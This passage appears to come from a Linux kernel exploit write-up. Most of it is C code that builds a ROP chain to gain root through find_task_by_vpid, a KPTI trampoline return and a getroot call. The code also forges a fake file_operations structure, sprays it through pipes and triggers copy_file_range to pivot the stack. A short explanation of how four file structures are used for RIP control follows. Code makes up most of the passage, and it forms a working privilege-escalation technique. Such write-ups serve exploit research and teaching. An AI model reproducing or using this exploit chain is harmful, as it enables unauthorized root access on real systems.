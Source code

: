 ```c
rop[idx++] = push_rax_pop_rbx;
rop[idx++] = pop_rdi;
rop[idx++] = getpid();
rop[idx++] = find_task_by_vpid;
rop[idx++] = pop_rdi;
rop[idx++] = current_fs_offset;
rop[idx++] = add_rax_rdi;
rop[idx++] = mov_irax_rbx;
rop[idx++] = 0; //
rop[idx++] = kpti_trampoline;
rop[idx++] = 0; //
rop[idx++] = 0; //
rop[idx++] = (uint64_t)getroot;
rop[idx++] = user_cs;
rop[idx++] = user_rflags;
rop[idx++] = user_sp;
rop[idx++] = user_ss;


u64 fake_ops_offset = ALIGNED_FILE_SZ*3;
// files[3] to fake file_operations
struct file_operations *fake_fops = (struct file_operations *)((char *)buf + fake_ops_offset);

// push rdx ; pop rsp ; imul edi, edi, -0x7b ; ror byte ptr [rdi], 0x85 ; ret
fake_fops->copy_file_range = magic_gadget;
fake_fops->remap_file_range = magic_gadget;
// set file->f_op file victim_file_idx ( files[0] )
buf[OFFSET_FILE_FOP/sizeof(uint64_t)] = heap_base + fake_ops_offset; 
char tmp[0x1000];

for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
    SYSCHK(write(pipe_fd[i][1], buf, sizeof(buf)));
    SYSCHK(read(pipe_fd[i][0], tmp, sizeof(tmp)));
}

// offset_out > offset_in
off_t offset_in = 0, offset_out = 1;
copy_file_range(spray_fds[victim_file_idx], &offset_in, spray_fds[pivot_id], &offset_out, 1, 0);
_wait();
```
To gain RIP control, I make use of four file structures.

- **files[0] (`victim_file_idx`)**: its `f_op` pointer is overwritten so that invoking `copy_file_range` dispatches execution to my `magic_gadget`.
- **files[1] (`pivot_id`)**: I prepare three key gadgets here — `pop rdi; ret`, `ret 0xd8` and `ret`. These two files ( 0 & 1 ) are directly passed into `copy_file_range`, which means they must still satisfy kernel file checks, so I cannot host the full ROP chain on them.
- **files[2]**: this file holds the actual ROP chain. After executing the `ret 0xd8` gadget, control flow pivots here, continuing execution of the chain.
- **files[3]**: used to provide the fake `file_operations` structure that `files[0]` will dereference.

